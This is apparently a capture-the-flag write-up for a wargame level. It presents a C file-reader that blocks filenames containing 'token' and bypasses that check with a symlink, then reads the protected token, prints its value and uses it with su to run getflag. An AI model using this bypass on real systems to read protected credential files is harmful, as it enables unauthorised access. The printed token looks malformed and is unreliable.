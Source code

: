 # level04

## Challenge info
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

```
int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Solution

The program used to do access control on the file only verifies if the file name provided from argument is, or contains, token.

The easy way to avoid this type of check is by creating a symbolic link to the token file with a name that strstr() does match to token (in other words, without token in it).

```
ln -s /home/flag04/token /tmp/sym
/home/flag04/flag04 /tmp/sym
```

The token is 
```
06508b5e-8909-b630-fdb148a84a2
```

Now use the token as the flag04 password 
```
su flag04
getflag
```

## Flag
```
You have successfully executed getflag on a target account 
```
